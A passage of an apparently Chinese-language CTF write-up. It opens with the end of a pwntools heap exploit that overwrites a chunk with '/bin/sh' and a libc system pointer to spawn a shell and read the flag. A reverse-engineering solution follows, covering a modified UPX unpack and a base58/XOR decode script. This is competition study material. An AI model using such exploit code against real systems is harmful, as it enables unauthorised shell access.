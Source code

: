 ```python
add(3,0x30)
system=base+libc.sym.system
edit(3,b"/bin/sh\x00"+p64(system)+b'\n')
free(3)
io.sendline(b"cat f*")
io.interactive()
```

# REVERSE

## simplere | FINISHED - soapsama

魔改的upx壳，winhex改一下就能正常脱壳

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505210130788.png)

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505210130789.png)

CTF改为UPX

拖入64位ida分析主函数

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505210130790.png)

标准的输入->加密->校验逻辑，主要加密过程为：先进行一个换表的base58编码，再将编码后的值异或于编码后的长度值（倒序输入）

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505210130791.png)

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505210130792.png)

```plain&#x20;text
a=[  0x72, 0x7A, 0x32, 0x48, 0x34, 0x4E, 0x3F, 0x3A, 0x42, 0x33,
  0x47, 0x69, 0x75, 0x63, 0x7C, 0x7D, 0x77, 0x62, 0x65, 0x64,
  0x7B, 0x6F, 0x62, 0x50, 0x73, 0x2B, 0x68, 0x6C, 0x67, 0x47,
  0x69, 0x15, 0x42, 0x75, 0x65, 0x40, 0x76, 0x61, 0x56, 0x41,
  0x11, 0x44, 0x7F, 0x19, 0x65, 0x4C, 0x40, 0x48, 0x65, 0x60,
  0x01, 0x40, 0x50, 0x01, 0x61, 0x6F, 0x69, 0x57]
enc=[0]*58
for i in range(len(a)):
    enc[len(a)-1-i]=(a[i]^(i+1))
for i in enc:
    print(hex(i)[2:],end='')
   # 6d505756376574325254786f624835546e3869714753644657633576597a7073316a4875796e707670666d736d78654c394b323848314c317873
```

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505210130793.png)



## easy\_re | FINISHED - soapsama
